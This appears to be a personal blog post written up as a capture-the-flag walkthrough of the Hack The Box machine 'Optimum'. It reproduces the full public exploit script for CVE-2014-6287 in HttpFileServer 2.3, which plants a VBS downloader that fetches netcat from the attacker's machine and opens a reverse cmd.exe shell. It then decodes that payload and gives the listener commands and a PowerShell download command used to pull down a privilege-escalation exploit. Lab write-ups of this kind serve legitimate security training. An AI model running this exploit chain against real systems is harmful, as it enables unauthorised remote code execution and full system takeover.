 ```yaml
---
layout:     post
title:      Hackthebox Notes Optimum Pwned
date:       2021-01-31
summary:    Run against Optimum machine on Hackthebox.eu
categories: CTF
thumbnail: cogs
tags:
 - CTF
 - Hackthebox
 - Owned
---
```


# Optimum  
I have no idea how this one will go.  
Started out with autorecon scan, which took so much longer than my typical #nmap -sV -A -p- -oN outfile ipaddress scan.  
Autorecon scans have finished.  
Nothing unremarkable, port 80 open with HFS 2.3 marked as service version.  
Navigated to 10.10.10.8:80 in browser, and yeah it's a webserver with HttpFileServer 2.3.  
Searched exploit-db for httpfileserver 2.3, found some exploits  
Reviewed code for exploits and chose the Remote Code Execution exploit that looked the most promising, https://www.exploit-db.com/exploits/39161  
{% highlight ruby %}
#!/usr/bin/python
# Exploit Title: HttpFileServer 2.3.x Remote Command Execution
# Google Dork: intext:"httpfileserver 2.3"
# Date: 04-01-2016
# Remote: Yes
# Exploit Author: Avinash Kumar Thapa aka "-Acid"
# Vendor Homepage: http://rejetto.com/
# Software Link: http://sourceforge.net/projects/hfs/
# Version: 2.3.x
# Tested on: Windows Server 2008 , Windows 8, Windows 7
# CVE : CVE-2014-6287
# Description: You can use HFS (HTTP File Server) to send and receive files.
#	       It's different from classic file sharing because it uses web technology to be more compatible with today's Internet.
#	       It also differs from classic web servers because it's very easy to use and runs "right out-of-the box". Access your remote files, over the network. It has been successfully tested with Wine under Linux. 
 
#Usage : python Exploit.py <Target IP address> <Target Port Number>

#EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).  
#          You may need to run it multiple times for success!


import urllib2
import sys

try:
	def script_create():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+save+".}")

	def execute_script():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe+".}")

	def nc_run():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe1+".}")

	ip_addr = "192.168.44.128" #local IP address
	local_port = "443" # Local Port number
	vbs = "C:\Users\Public\script.vbs|dim%20xHttp%3A%20Set%20xHttp%20%3D%20createobject(%22Microsoft.XMLHTTP%22)%0D%0Adim%20bStrm%3A%20Set%20bStrm%20%3D%20createobject(%22Adodb.Stream%22)%0D%0AxHttp.Open%20%22GET%22%2C%20%22http%3A%2F%2F"+ip_addr+"%2Fnc.exe%22%2C%20False%0D%0AxHttp.Send%0D%0A%0D%0Awith%20bStrm%0D%0A%20%20%20%20.type%20%3D%201%20%27%2F%2Fbinary%0D%0A%20%20%20%20.open%0D%0A%20%20%20%20.write%20xHttp.responseBody%0D%0A%20%20%20%20.savetofile%20%22C%3A%5CUsers%5CPublic%5Cnc.exe%22%2C%202%20%27%2F%2Foverwrite%0D%0Aend%20with"
	save= "save|" + vbs
	vbs2 = "cscript.exe%20C%3A%5CUsers%5CPublic%5Cscript.vbs"
	exe= "exec|"+vbs2
	vbs3 = "C%3A%5CUsers%5CPublic%5Cnc.exe%20-e%20cmd.exe%20"+ip_addr+"%20"+local_port
	exe1= "exec|"+vbs3
	script_create()
	execute_script()
	nc_run()
except:
	print """[.]Something went wrong..!
	Usage is :[.] python exploit.py <Target IP address>  <Target Port Number>
	Don't forgot to change the Local IP address and Port number on the script"""
{% endhighlight %}  
I immediately reassigned the variables ip_addr & local_port to match my own.  
I then pasted the variable vbs into an http decoder.  
{% highlight ruby %}
"C:\Users\Public\script.vbs|dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", "http://" ip_addr "/nc.exe", False
xHttp.Send

with bStrm
    .type = 1 '//binary
    .open
    .write xHttp.responseBody
    .savetofile "C:\Users\Public\nc.exe", 2 '//overwrite
end with"
{% endhighlight %}
So essentially, the vbs script will look for nc.exe (netcat binary) at ip_addr (my vpn IP), and save it to C:\Users\Public.  
Afterward, the exploit code will execute nc.exe in CMD at my ip address and given port.  
So I copied nc.exe to a folder on my machine, and started an http server with #python3 -m http.server (this is python3 syntax).  
I then started a netcat server with #nc -lnvp portnumber, where portnumber matches local_port from above script.  
I then executed the exploit from my terminal with $python3 exploit.py 10.10.10.8 80.  
It errored out.  
I did some finagling and edited/troubleshot all the way down to the very bottom of the script (print statement), then I realized that the python script is written for python 2.7.  
So I un-finagled the script, and ran it again with $/usr/bin/python2.7 exploit.py 10.10.10.8 80.  
Exploit ran, I saw the http server I started hand out nc.exe with a 200 OK, and the open netcat shell connected with a CMD prompt.  
I navigated to user desktop and type'ed flag, then ran systeminfo.  
Meanwhile, on my own machine, I located windows-exploit-suggester.  I updated it, pasted the sysinfo content into a systeminfo.txt, and ran the script with the updated database and txt.  
Apparently this machine is vulnerable to an integer overflow.  
I downloaded the suggested exploit with $wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe into the http.server directory.  
I then closed and started up a new http.server at a different port.  
I messed around with a few variants of downloading via powershell and eventually this one worked:  
>powershell -c "(new-object System.Net.WebClient).DownloadFile('http://vpnIP:PORT/41020.exe', 'c:\Users\Public\Downloads\41020.exe')"  
I then navigated to that directory and executred the new exploit.  
I saw no special output in the shell, until I ran whoami.  
{% highlight ruby %}
nt authority/system
{% endhighlight %}
Yep, that's me!  
I then navigated to the Administrator's desktop and type'd the root flag.  
Another machine from the TJ Null OSCP Prep list complete.  This makes 11 machines rooted so far.  
